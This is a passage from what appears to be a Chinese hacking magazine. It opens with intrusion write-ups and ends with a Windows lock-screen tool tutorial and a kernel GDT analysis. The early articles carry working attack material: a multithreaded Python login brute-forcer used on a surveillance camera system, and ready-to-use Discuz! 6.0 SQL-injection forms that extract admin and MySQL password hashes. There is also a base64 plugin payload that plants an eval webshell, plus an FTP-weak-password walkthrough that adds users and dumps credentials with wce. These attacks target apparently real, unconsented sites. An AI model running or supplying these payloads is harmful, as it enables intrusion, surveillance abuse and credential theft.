接下来我用自己写的扫描器扫描了一下局域网，将局域网开有80端口的IP地址列出来，发现几个开有80端口的IP，点击进去都是同一个页面，如图3所示。

图3

仔细一看，原来是摄像头监控系统，挖到宝了。来的时候就注意到了，这里的摄像头特别多，分布在每个走廊、角落、收银台，几乎是无孔不入。需要用户名密码，先手动试了两个弱密码发现不行，但输入的过程中发现输入密码六位以上字母或数字就输入不进去了，明显的六位密码，那就暴力破解看看吧。于是我写了几行脚本（Python代码），查看网页源代码看其字段名，和URL一起放入脚本中来跑。核心代码如下：

```python
class ThreadUrl(threading.Thread):
    def __init__(self,queue):
        threading.Thread.__init__(self)
        self.queue=queue
    def run(self):
        while True:
            try:
                if(Queue.Empty):
                    pwd=self.queue.get()
                else:
                    break
                params = urllib.urlencode({nn:Login,
                                            pp:pwd})
                headers={"Content-Type":"application/x-www-form-urlencoded",
                         "Connection":"Keep-Alive"}
                conn = httplib.HTTPConnection(url)
                conn.request(method="POST",url=url2,body=params,headers=headers)
                response = conn.getresponse()
                if response.status == 302:
                    final="破解成功!^_^!账号： %s 密码： %s"%(LOG,pwd)
                    print inRed(final)
                    success.append(final)
                else:
                    print inGreen('try cracking name:%s pwd %s'%(LOG,pwd))
```

```python
conn.close()
except:
    print inGreen('link time over !')
self.queue.task_done()
调用处核心代码：
for i in range(10):
    t=ThreadUrl(queue)
    t.setDaemon(True)
    t.start()
names = [line.rstrip() for line in open("name.txt")]
pwds = [line.rstrip() for line in open("pwd.txt")]
for log in names:
    global LOG
    LOG=""
    LOG=log
    for pwd in pwds:
        p=pwd
        queue.put(p)
queue.join()
```

暴力破解程序运行过程如图4所示，不到10分钟就成功破解了用户名密码。进入后的界面如图5所示。

图4

图5

将控制菜单放大，我们可以看到此vss系统可以对监控摄像头进行聚焦、变焦、巡迹、旋转等操作，点击左边的监控选项，查看指定摄像头的监控，如图 6、7 所示。


图 6


图 7

如果对摄像头进行操作，甚至可以看到收银台具体的账目信息，图 8 为某小收银台监控图。


图 8

除了 80 端口，我们还可以扫描其他端口，找到可以渗透的点对其渗透测试，如图 9 为一例子。


图 9

当然，该局域网 IP 还开了很多可以渗透的端口，没有进行一一测试。所幸的是，这里的监控系统都是局域网内可访问，没有设置公网访问，否则通过设置特征值扫描，我们可以扫到多少这样的监控系统。现在许多品牌的云台监控系统，都存在着各自特征值，我们只要仔细寻找特征值，对其扫描，就可以获取大量的监控 URL 地址，如图 10 就是我后来自己设置特征值扫描到的一个截图。


图 10

通过以上渗透过程我们可以看到，很多系统或多或少都有一些明显的安全性问题，这些小的问题可能会被我们忽略掉，然而有很大的可能会泄露一些隐私，所以基本的安全意识是很重要的。

### 渗透某“高大上”车友会网站

文/图 Simeon

在乌云上看见有一个有关 Discuz! 6.0 版本的 my.php 文件的 SQL 注入漏洞，究其原因是因为参数过滤不严格导致 SQL 注入，本文主要就其实战利用方面进行了一些研究。

在实际利用过程需要对管理员进行定位，换句话说就是必须找出管理员的账号，有很多论坛都不是采用默认管理员即为 admin，而是修改为其他管理员，这时就要根据个人经验来获取了。根据本人经验主要有以下几种方法来获取：

- 1. 先注册一个用户，使用注册用户登录论坛，通过查看管理员（高级版主、版主）发表帖子的地方，来获取管理员的 ID。
- 2. 查看论坛统计功能是否对普通用户或者游客开放，在统计模块中可以发现管理团队。
- 3. 获取版主权限，通过版主的权限来查看管理员的管理模块，比如内部管理等等，可以获取管理员的账号名称。

下面就一个实例来介绍 Discuz! 6.0 版本的 my.php 文件的 SQL 注入漏洞的实际利用，获取管理员密码，并获取 webshell。

#### 通过关键字寻找渗透目标

通过 Google 搜索关键字 “Powered by Discuz!6.0” And “go”，目的是获取 Discuz!6.0 版本的论坛，如图 1 所示，对 Discuz!6.0 版本进行搜索，随机选择一个搜索出来的记录，单击该链接访问网站。


> 图 1 搜索目标

#### 在论坛注册一个账号

本次打开的网站为 http://www.xxxxxxxx.net/，如图 2 所示，注册一个测试账号“testfcuk”，注册成功后使用该账号进行登录。本次漏洞利用必须具有 user 权限。


图 2 注册并登录论坛

#### 编辑漏洞利用模板

将以下代码保存为 html 文件：

```html
get admin info
<form method='post' action='http://www.xxxxxxxxxx.net/my.php?item=buddylist'>
<input type='hidden' value='1111' name='descriptionnew[1' and(select 1 from(select count(*),concat((select concat(username,0x3a,password,0x3a,secques,0x3a,email) from cdb_members where adminid=1 limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1#]' /><br />
<input type='submit' value='buddysubmit' name='buddysubmit' /><br />
</form>
get mysql user info
<form method='post' action='http://www.xxxxxxxxxx.net/my.php?item=buddylist'>
<input type='hidden' value='1111' name='descriptionnew[1' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e) limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1#]' /><br />
<input type='submit' value='buddysubmit' name='buddysubmit' /><br />
</form>
get user salt,secques and password
<form method='post' action='http://www.xxxxxxxxx.net/my.php?item=buddylist'>
<input type='hidden' value="1111" name="descriptionnew[1' and(select 1 from(select count(*),concat((select concat(user,0x3a,password,0x3a,salt,0x3a,secques,0x3a) from mysql.user limit 0,1 ),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1#]" /><br />
<input type='submit' value='buddysubmit' name='buddysubmit' /><br />
</form>
```

注意：目标网站不同则需要替换 form 表单中的网站地址。打开该 html 文件，如图 3 所示，一共有三个提交按钮，分别是获取管理员信息、获取 mysql 用户信息、获取指定用户的 salt 和安全验证码。


图 3 漏洞利用程序

##### 1）获取管理员信息

一般来讲默认 adminid=1 就是管理员，但有些情况其值可能不是 1，因此需要对代码进行修改，使 adminid 与实际的值匹配。比如 adminid 为 2，则修改代码如下：

```txt
and(select 1 from(select count(*),concat((select concat(username,0x3a,password,0x3a,secques,0x3a,email) from cdb_members where adminid=2 limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1#]
```

### 2）获取 salt 加密值

获取管理员或者某个用户 salt 加密值，则可以利用下面代码：

```txt
descriptionnew[1' and(select 1 from(select count(*),concat((select concat(user,0x3a,password,0x3a,salt,0x3a,secques,0x3a) from mysql.user limit 0,1 ),floor(rand(0)*2))x from information_schema.tables group by x)a) and 1=1#]
```

#### 获取管理密码加密等信息

在图 3 中单击第一个按钮获取管理员的基本信息，如图 4 所示，获取信息如下：小凯:2459b24d9f663d2a4afa48374d63b8d1::chinaxxxxxxxxx@163.com1，用户名“小凯”，密码为“2459b24d9f663d2a4afa48374d63b8d1”，邮箱地址“chinaxxxxxxxxxx@163.com”。


图 4 获取管理员密码值

#### 获取数据库信息

回到漏洞利用页面，单击第二个按钮获取数据库相关信息，如图 5 所示，数据库服务器“localhost”，用户名“xxxxxxxxx”。


图 5 获取数据库信息

#### 进入管理后台

将 MD5 加密值在 cmd5.com 进行查询，获取其加密密码，使用用户和密码进行登录，如图 6 所示，顺利进入网站前台和后台。


图 6 进入后台管理中心

## 通过插件漏洞直接获取 webshell

如图 7 所示，在后台中先创建一个插件名称“webshell”，唯一标识符：“a’]=eval($_POST[cmd]);$a[’”，导入以下代码即可获取 webshell：

```txt
YToyOntzOjY6InBsdWdpbiI7YTo5OntzOjk6ImF2YW1sYWJsZSI7czoxOiIx
IjtzOjc6ImFkbW1uaWQiO3M6MToiMCI7czo0OiJuYW1lIjtzOjg6IkdldFNo
ZWxsIjtzOjEwOiJpZGVudGlmaWVyIjtzOjI2OiJhJ109ZXZhbCgkX1BPU1Rb
Y21kXSk7JGFbJyI7czoxMToiZGVzY3JpcHRpb24iO3M6MDoiIjtzOjEwOiJk
YXRhdGFibGVzIjtzOjA6IiI7czo5OiJkaXJlY3RvcnkiO3M6MDoiIjtzOjk6
ImNvcHlyaWdodCI7czowOiIiO3M6NzoibW9kdWxlcyI7czowOiIiO31zOjc6
InZlcnNpb24iO3M6NToiNi4wLjAiO30=
```


图 7 插件漏洞利用

Webshell 的密码为 cmd，webshell 地址为：

http://localhost/dz6.0/forumdata/cache/plugin_a’]=eval($_POST[cmd]);$a[’.php。

通过插件漏洞直接获取 Webshell，如图 7 所示，在浏览器中输入 Webshell 地址“http://www.xxxxxxxxx.net/forumdata/cache/plugin_a’]=eval($_POST[cmd]);$a[’.php”进行验证，Webshell 成功获取，如图 8 所示为查看网站论坛配置文件 config.inc.php 内容。


图 8 测试 Webshell 地址


图 9 获取 webshell

## Ftp 弱口令渗透某服务器

文/图 Simeon

闲来无事，测试某款工具软件，扫描出来服务器 ftp 弱口令：ftp/ftp，直接使用 cuteftp 进行登录，成功登录，如图 1 所示。


图 1 获取 ftp 权限

### 获取 webshell

通过 ftp 客户端程序直接上传 webshell 一句话后门，果断使用菜刀一句话进行连接，如图 2 所示，成功获取 webshell。


图 2 获取 webshell

#### 获取数据库账号和密码

通过菜刀管理端对网站配置文件进行查看，在根目录“inc”下获取数据库连接文件 conn.asp，打开该文件获取其数据库配置信息，数据库 IP、用户和密码，如图 3 所示。一般来说数据库连接密码会保存在根目录 conn.asp 或者 include、inc 文件夹下，如果不是则可以查看 index.asp 中的包含文件。


图 3 获取数据库配置信息

#### 数据库服务器直接提权

- 1）连接数据库服务器

本次使用 **sqlexec** 工具，输入“Host”“User”和“Pass”，单击 **connect** 进行连接测试，使用“ipconfig /all”测试是否可以执行命令，如图 4 所示、图 5 所示，可以直接添加用户。


图 4 连接数据库服务器


图 5 添加用户

- 2）扫描端口

通过 **nmap** 对服务器进行扫描，如图 6 所示，在 Target 中输入 IP 地址“220.191.210.118”，扫描结果表明服务器开放 21、1433、80、81、3389。


图 6 扫描端口开放情况

- 3）使用终端登录 3389

使用 mstsc 直接登录该服务器，如图 7 所示，成功登录。（在该服务器上发现了早期安全员对站点后门的查杀记录以及黑客添加的用户，如图 8、图 9 所示，同时该服务器还被黑客用来做肉鸡扫描。上传 **wce** 密码获取工具，执行“wce -w”命令直接获取曾经登录的密码，如图 10 所示。


图 7 成功登录该服务器


图 8 早期后门查杀记录和黑客添加到管理员账号


图 9 发现的黑客工具


图 10 通过 wce 快速获取管理员密码

#### 总结

通过 ftp 弱口令扫描，获取服务器 FTP 权限，通过 FTP 上传 webshell，通过 webshell 查看服务器信息后，进行提权。通过对该服务器进行安全检查，发现该服务器主要存在两个非常明显的漏洞：fckeditor 编辑器 test.html 文件上传和 ftp 弱口令。通过这两个基础漏洞成功渗透服务器，可见基础还是很重要的。

（完）

### 编写 Windows 系统锁屏图片更改工具

文/图 马智超（Deserteagle）

之前美化 Windows 系统，在更改屏幕锁定图片的时候，发现每次手动更改比较麻烦，并且发现其中原理也非常简单，所用到的技术也清晰明了：对注册表的操作、突破权限复制文件、调用系统函数锁屏和简单的 MFC 界面操作，于是索性写个小软件，以后再用的时候方便。我的系统是 Win7 系统，在其上可以使用。

#### 原理浅析

我们从网上可以看到一些方法介绍，首先我们要修改注册表。注册表是 Microsoft Windows 用于存储系统和应用程序设置信息的一个重要数据库。进入注册表 `HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Authentication/LogonUI/Background`，看是否有 `OEMBackground` 这个键，没有就新建，数据类型为 `REG_DWORD`，将其值设置为 1，然后选择图片，命名为 `backgroundDefault.jpg`，放置在 `C:\Windows\System32\oobe\info\backgrounds` 目录下。如果没有这个目录就新建，然后把图片复制过去。最后检查一下计算机配置-管理模块-系统-登录模块是否始终选择自定义登录背景，没有的话就勾选上，然后就可以了。原理就是这样了，我们可以猜到在代码中我们要对注册表进行操作、对文件目录操作，由于是系统目录，还需要突破系统权限。还需要调用系统函数来进行锁屏测试，下面是代码的详细说明。

#### 代码解析

我们先说说选择图像目录的功能。选择图像目录我们可以调用 `CFileDialog` 类，在这个类中我们可以使用 `GetPathName()` 等函数来获取所选图片的路径，继而自己写个函数来获取它的文件名、路径等信息。核心代码如下：

```cpp
CFileDialog ccFileDlg(TRUE, NULL, NULL,
    OFN_HIDEREADONLY | OFN_OVERWRITEPROMPT | OFN_ALLOWMULTISELECT,
    _T("Image files(*.png; *.jpg)|*.png;*.jpg|All files(*.*)|*.*||"), NULL);
if (ccFileDlg.DoModal() == IDOK)
{
    CString strPathName = ccFileDlg.GetPathName();
    CString strDir = strPathName.Left(strPathName.ReverseFind('\\'));
    strPathName.Replace("\\", "\\\\");
    CString s = GetFileName(strPathName);
    CopyFile(strPathName, "C:\\backgroundDefault.jpg", false);
    SHFILEOPSTRUCT fileop;
    fileop.hwnd = this->m_hWnd;
    fileop.wFunc = FO_COPY; // 拷贝
    fileop.pFrom = "C:\\backgroundDefault.jpg"; // 从哪里拷贝
    fileop.pTo = "C:\\Windows\\System32\\oobe\\info\\backgrounds\\backgroundDefault.jpg"; // 拷贝到哪里
    fileop.fFlags = FOF_NOCONFIRMMKDIR; // FOF_SILENT;
}
```

```cpp
SHFileOperation(&fileop); // 执行
AfxMessageBox("图片选择成功!");
}
```

经过测试，如果用 `CopyFile` 函数来直接将文件复制到 Windows 目录下，虽然不会有错误信息，但是文件不能被复制过去，这与系统目录的权限保护有关。那么我们如何突破呢？经过测试，在 Windows 的 `shellapi` 文件中定义了一个名为 `SHFileOperation()` 的外壳函数，用它可以实现各种文件操作，并且不会因为权限限制而复制不过去。

而这里我是先把任何名字的图片复制到 C 盘目录下，自动重命名为 `backgroundDefault`。而如果先重命名的话，若再次选同目录下的图片重命名会有冲突问题，所以 `CopyFile` 第三个参数设为 `false`，这样自动覆盖就没有了这个冲突。然后再把 C 盘目录下的文件复制到指定目录下。

接下来是对注册表的操作。对注册表的打开、删除、查询、新建、设置等都有对应的 Windows API。下面是核心代码，看看函数名也知道是对应干什么的了：

```cpp
LONG RegOpenKeyEx(
    HKEY hKey,            // 需要打开的主键的名称
    LPCTSTR lpSubKey,     // 需要打开的子键的名称
    DWORD ulOptions,      // 保留，设为 0
    REGSAM samDesired,    // 安全访问标记，也就是权限
    PHKEY phkResult       // 得到的将要打开键的句柄
);
LONG RegSetValueEx(
    HKEY hKey,
    LPCTSTR lpValueName,
    DWORD Reserved,
    DWORD dwType,
    CONST BYTE *lpData,
    DWORD cbData
);
```

```cpp
核心代码如下：
LONG    lRetCode, mRetCode, nRetCode;
HKEY    hKey1, hKey;
DWORD   dwDisposition;
char* b = (LPSTR)(LPCTSTR)"OEMBackground";
LONG    lRetCode1;

lRetCode1 = RegOpenKeyEx(HKEY_LOCAL_MACHINE,
"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Authentication\\LogonUI\\Background",
0, KEY_SET_VALUE|KEY_WOW64_64KEY, &hKey1);
if(lRetCode1 != ERROR_SUCCESS){
    AfxMessageBox(_T("子键不存在，正在创建！"));
    mRetCode = RegCreateKeyEx(HKEY_LOCAL_MACHINE,
"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Authentication\\LogonUI\\Background", 0,
b, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS,
    NULL, &hKey1, &dwDisposition);

if (mRetCode != ERROR_SUCCESS)
{
    AfxMessageBox(_T("创建失败！"));
    return;
}

DWORD dwData;
dwData = 1;
DWORD dwSize = sizeof(DWORD);
nRetCode = RegSetValueEx(hKey1, "OEMBackground", 0, REG_DWORD, (LPBYTE)
&dwData, dwSize);
if (nRetCode != ERROR_SUCCESS)
{
    AfxMessageBox(_T("修改失败！"));
    return;
}
else {
    MessageBox("操作完成！注意图像大小必须大于等于屏幕大小，程序不提供图像缩放功能！");
}
GetDlgItem(IDC_BUTTON3)->EnableWindow(true);
```

这里注意 `RegOpenKeyEx` 里要加入 `KEY_WOW64_64KEY` 来指出是 32 位操作系统还是 64 位操作系统，这样写入注册表不会出错，否则会因为重定向问题而不能向注册表内写入值，即使最后 `RegSetValueEx()` 函数返回的值为 0。

接着执行锁屏测试的代码只需要一行，非常好懂：

```cpp
system("rundll32.exe user32.dll,LockWorkStation");
```

而 MFC 界面设计与美化之类的没什么技术含量，就不多讲了，所有的核心代码就是这些了。

#### 测试截图

打开软件界面如图 1 所示。


图 1

点击选择目录按钮，选择要更换的图片，如图 2 所示。因为已经存在，所以会有如图提示，接着会出现如图 3 所示的提示。接着我们打开注册表可以看到一开始所指定键值为 0，如图 4，我们要将其修改为 1，点击修改按钮执行，如图 5，我们可以看到提示。


图 2


图 3


图 4


图 5

接着点击锁屏测试，会调用系统函数来执行锁屏功能，我们就可以看到自己所更改的锁屏图片的效果了。

经过测试，本程序可以实现 Win7 系统的锁屏图片更改。通过这次 MFC 编程写了一个小的软件，其意义不仅是方便了操作，更重要的是重温了一些编程技术，温故而知新。

### 深入解析 GDT

文/主动

CPU 相信大家都知道是什么，但 GDT 对于一些不搞底层的人，知道的可能就不多了。GDT 是 Global Descriptor Table 的缩写，相应的还有个 Local Descriptor Table（LDT），这个不在本文的讨论范围内。

GDT 在保护模式教程中经常看到，但这和我们程序员有什么关系呢？

- 1）留后门，就是进入 R0 后设置（R3）进入 R0 的后门（如调用门、中断门、任务门等）。
- 2）了解/编写操作系统。微软的 Windows 经历了很多变化，如今都到了 Windows 10。但这对咱有意思吗？顶多认识、了解和应用/利用。好像有不少的变化（PC 端）都是基于硬件的，基于软件的算法不说。
- 3）虚拟化。如 Intel-VT 就要设置许多段（如 cs、ss、ds、es、fs、gs 等）的 Base、Limit、Access Rights、Selectors 等。

好了，废话不多说，进入正题。以 Windows 系统为例进行分析。

```text
kd> vertarget
Windows XP Kernel Version 2600 (Service Pack 3) MP (1 procs) Free x86 compatible
Built by: 2600.xpsp_sp3_qfe.130704-0421
Machine Name:
Kernel base = 0x804d8000 PsLoadedModuleList = 0x8055e720
Debug session time: Thu Aug    6 14:25:16.468 2015 (UTC + 8:00)
System Uptime: 0 days 0:01:19.984
```

这是操作系统的环境信息，GDT 是由 GDTR 指向的。

```text
kd> r gdtr
gdtr=8003f000
```

其大小为：

```text
kd> r gdtl
gdtl=000003ff
```

其全部的内容为：

```text
kd> db 8003f000 L(000003ff + 1)
8003f000    00 00 00 00 00 00 00 00-ff ff 00 00 00 9b cf 00    ................
8003f010    ff ff 00 00 00 93 cf 00-ff ff 00 00 00 fb cf 00    ................
8003f020    ff ff 00 00 00 f3 cf 00-ab 20 00 20 04 8b 00 80    .......... .....
8003f030    01 00 00 f0 df 93 c0 ff-ff 0f 00 00 00 f3 40 00    ..............@.
8003f040    ff ff 00 04 00 f2 00 00-00 00 00 00 00 00 00 00    ................
8003f050    68 00 00 27 55 89 00 80-68 00 68 27 55 89 00 80    h..'U...h.h'U...
8003f060    ff ff 40 2f 02 93 00 00-ff 3f 00 80 0b 92 00 00    ..@/.....?......
8003f070    ff 03 00 70 ff 92 00 ff-ff ff 00 00 40 9a 00 80    ...p........@...
8003f080    ff ff 00 00 40 92 00 80-00 00 00 00 00 92 00 00    ....@...........
8003f090    00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00    ................
8003f0a0    68 00 b8 16 38 89 00 82-00 00 00 00 00 00 00 00    h...8...........
8003f0b0    00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00    ................
8003f0c0    00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00    ................
8003f0d0    00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00    ................
8003f0e0    ff ff 00 f0 50 9f 00 f8-ff ff 00 00 00 92 00 00    ....P...........
8003f0f0    b7 03 40 d0 4f 98 00 80-ff ff 00 00 00 92 00 00    ..@.O...........
8003f100    ff ff 00 24 4d 93 40 ba-ff ff 00 24 4d 93 40 ba    ...$M.@....$M.@.
8003f110    ff ff 00 24 4d 93 40 ba-20 f1 03 80 00 00 00 00    ...$M.@. .......
8003f120    28 f1 03 80 00 00 00 00-30 f1 03 80 00 00 00 00    (.......0.......
8003f130    38 f1 03 80 00 00 00 00-40 f1 03 80 00 00 00 00    8.......@.......
8003f140    48 f1 03 80 00 00 00 00-50 f1 03 80 00 00 00 00    H.......P.......
8003f150    58 f1 03 80 00 00 00 00-60 f1 03 80 00 00 00 00    X.......`.......
8003f160    68 f1 03 80 00 00 00 00-70 f1 03 80 00 00 00 00    h.......p.......
8003f170    78 f1 03 80 00 00 00 00-80 f1 03 80 00 00 00 00    x...............
8003f180    88 f1 03 80 00 00 00 00-90 f1 03 80 00 00 00 00    ................
8003f190    98 f1 03 80 00 00 00 00-a0 f1 03 80 00 00 00 00    ................
8003f1a0    a8 f1 03 80 00 00 00 00-b0 f1 03 80 00 00 00 00    ................
8003f1b0    b8 f1 03 80 00 00 00 00-c0 f1 03 80 00 00 00 00    ................
8003f1c0    c8 f1 03 80 00 00 00 00-d0 f1 03 80 00 00 00 00    ................
8003f1d0    d8 f1 03 80 00 00 00 00-e0 f1 03 80 00 00 00 00    ................
8003f1e0    e8 f1 03 80 00 00 00 00-f0 f1 03 80 00 00 00 00    ................
8003f1f0    f8 f1 03 80 00 00 00 00-00 f2 03 80 00 00 00 00    ................
8003f200    08 f2 03 80 00 00 00 00-10 f2 03 80 00 00 00 00    ...............
8003f210    18 f2 03 80 00 00 00 00-20 f2 03 80 00 00 00 00    ....... .......
8003f220    28 f2 03 80 00 00 00 00-30 f2 03 80 00 00 00 00    (.......0.......
8003f230    38 f2 03 80 00 00 00 00-40 f2 03 80 00 00 00 00    8.......@.......
8003f240    48 f2 03 80 00 00 00 00-50 f2 03 80 00 00 00 00    H.......P.......
8003f250    58 f2 03 80 00 00 00 00-60 f2 03 80 00 00 00 00    X.......`.......
8003f260    68 f2 03 80 00 00 00 00-70 f2 03 80 00 00 00 00    h.......p.......
8003f270    78 f2 03 80 00 00 00 00-80 f2 03 80 00 00 00 00    x...............
8003f280    88 f2 03 80 00 00 00 00-90 f2 03 80 00 00 00 00    ...............
8003f290    98 f2 03 80 00 00 00 00-a0 f2 03 80 00 00 00 00    ...............
8003f2a0    a8 f2 03 80 00 00 00 00-b0 f2 03 80 00 00 00 00    ...............
8003f2b0    b8 f2 03 80 00 00 00 00-c0 f2 03 80 00 00 00 00    ...............
8003f2c0    c8 f2 03 80 00 00 00 00-d0 f2 03 80 00 00 00 00    ...............
8003f2d0    d8 f2 03 80 00 00 00 00-e0 f2 03 80 00 00 00 00    ...............
8003f2e0    e8 f2 03 80 00 00 00 00-f0 f2 03 80 00 00 00 00    ...............
8003f2f0    f8 f2 03 80 00 00 00 00-00 f3 03 80 00 00 00 00    ...............
8003f300    08 f3 03 80 00 00 00 00-10 f3 03 80 00 00 00 00    ...............
8003f310    18 f3 03 80 00 00 00 00-20 f3 03 80 00 00 00 00    ...............
8003f320    28 f3 03 80 00 00 00 00-30 f3 03 80 00 00 00 00    (.......0.......
8003f330    38 f3 03 80 00 00 00 00-40 f3 03 80 00 00 00 00    8.......@.......
8003f340    48 f3 03 80 00 00 00 00-50 f3 03 80 00 00 00 00    H.......P.......
8003f350    58 f3 03 80 00 00 00 00-60 f3 03 80 00 00 00 00    X.......`.......
8003f360    68 f3 03 80 00 00 00 00-70 f3 03 80 00 00 00 00    h.......p.......
8003f370    78 f3 03 80 00 00 00 00-80 f3 03 80 00 00 00 00    x...............
8003f380    88 f3 03 80 00 00 00 00-90 f3 03 80 00 00 00 00    ...............
8003f390    98 f3 03 80 00 00 00 00-a0 f3 03 80 00 00 00 00    ...............
8003f3a0    a8 f3 03 80 00 00 00 00-b0 f3 03 80 00 00 00 00    ...............
8003f3b0    b8 f3 03 80 00 00 00 00-c0 f3 03 80 00 00 00 00    ...............
8003f3c0    c8 f3 03 80 00 00 00 00-d0 f3 03 80 00 00 00 00    ...............
8003f3d0    d8 f3 03 80 00 00 00 00-e0 f3 03 80 00 00 00 00    ...............
8003f3e0    e8 f3 03 80 00 00 00 00-f0 f3 03 80 00 00 00 00    ...............
8003f3f0    f8 f3 03 80 00 00 00 00-00 00 00 00 00 00 00 00    ...............
```

注意：是 8 字节对齐，并不是 8 的整数倍。不过这些数据不好看，要解析，这就是我们的任务。其实也可以这样看：

```text
kd> dg 0 3ff
```

| Sel  | Base     | Limit    | Type              | l ze an es ng | Flags    |
|------|----------|----------|-------------------|---------------|----------|
| 0000 | 00000000 | 00000000 | \<Reserved\>      | 0 Nb By Np Nl | 00000000 |
| 0008 | 00000000 | ffffffff | Code RE Ac 0 Bg Pg P | Nl            | 00000c9b |
| 0010 | 00000000 | ffffffff | Data RW Ac 0 Bg Pg P | Nl            | 00000c93 |
| 0018 | 00000000 | ffffffff | Code RE Ac 3 Bg Pg P | Nl            | 00000cfb |

#### GDT 表项示例

| Sel  | Base     | Limit    | Type       | DPL | Gran | Size | Pres | NL | Flags    |
|------|----------|----------|------------|-----|------|------|------|----|----------|
| 0020 | 00000000 | ffffffff | Data RW Ac | 3   | Bg   | Pg   | P    | NI | 00000cf3 |
| 0028 | 80042000 | 000020ab | TSS32 Busy | 0   | Nb   | By   | P    | NI | 0000008b |
| 0030 | ffdff000 | 00001fff | Data RW Ac | 0   | Bg   | Pg   | P    | NI | 00000c93 |
| 0038 | 00000000 | 00000fff | Data RW Ac | 3   | Bg   | By   | P    | NI | 000004f3 |
| 0040 | 00000400 | 0000ffff | Data RW    | 3   | Nb   | By   | P    | NI | 000000f2 |
| 0048 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0050 | 80552700 | 00000068 | TSS32 Avl  | 0   | Nb   | By   | P    | NI | 00000089 |
| 0058 | 80552768 | 00000068 | TSS32 Avl  | 0   | Nb   | By   | P    | NI | 00000089 |
| 0060 | 00022f40 | 0000ffff | Data RW Ac | 0   | Nb   | By   | P    | NI | 00000093 |
| 0068 | 000b8000 | 00003fff | Data RW    | 0   | Nb   | By   | P    | NI | 00000092 |
| 0070 | ffff7000 | 000003ff | Data RW    | 0   | Nb   | By   | P    | NI | 00000092 |
| 0078 | 80400000 | 0000ffff | Code RE    | 0   | Nb   | By   | P    | NI | 0000009a |
| 0080 | 80400000 | 0000ffff | Data RW    | 0   | Nb   | By   | P    | NI | 00000092 |
| 0088 | 00000000 | 00000000 | Data RW    | 0   | Nb   | By   | P    | NI | 00000092 |
| 0090 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0098 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 00A0 | 823816b8 | 00000068 | TSS32 Avl  | 0   | Nb   | By   | P    | NI | 00000089 |
| 00A8 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 00B0 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 00B8 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 00C0 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 00C8 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 00D0 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 00D8 | 00000000 | 00000000 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 00E0 | f850f000 | 0000ffff | Code RE Ac | 0   | Nb   | By   | P    | NI | 0000009f |
| 00E8 | 00000000 | 0000ffff | Data RW    | 0   | Nb   | By   | P    | NI | 00000092 |
| 00F0 | 804fd040 | 000003b7 | Code EO    | 0   | Nb   | By   | P    | NI | 00000098 |
| 00F8 | 00000000 | 0000ffff | Data RW    | 0   | Nb   | By   | P    | NI | 00000092 |
| 0100 | ba4d2400 | 0000ffff | Data RW Ac | 0   | Bg   | By   | P    | NI | 00000493 |
| 0108 | ba4d2400 | 0000ffff | Data RW Ac | 0   | Bg   | By   | P    | NI | 00000493 |
| 0110 | ba4d2400 | 0000ffff | Data RW Ac | 0   | Bg   | By   | P    | NI | 00000493 |
| 0118 | 00008003 | 0000f120 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0120 | 00008003 | 0000f128 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0128 | 00008003 | 0000f130 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0130 | 00008003 | 0000f138 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0138 | 00008003 | 0000f140 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0140 | 00008003 | 0000f148 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0148 | 00008003 | 0000f150 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0150 | 00008003 | 0000f158 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0158 | 00008003 | 0000f160 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0160 | 00008003 | 0000f168 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0168 | 00008003 | 0000f170 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0170 | 00008003 | 0000f178 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0178 | 00008003 | 0000f180 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0180 | 00008003 | 0000f188 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0188 | 00008003 | 0000f190 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0190 | 00008003 | 0000f198 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 0198 | 00008003 | 0000f1a0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01A0 | 00008003 | 0000f1a8 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
| 01A8 | 00008003 | 0000f1b0 | \<Reserved> | 0   | Nb   | By   | Np   | NI | 00000000 |
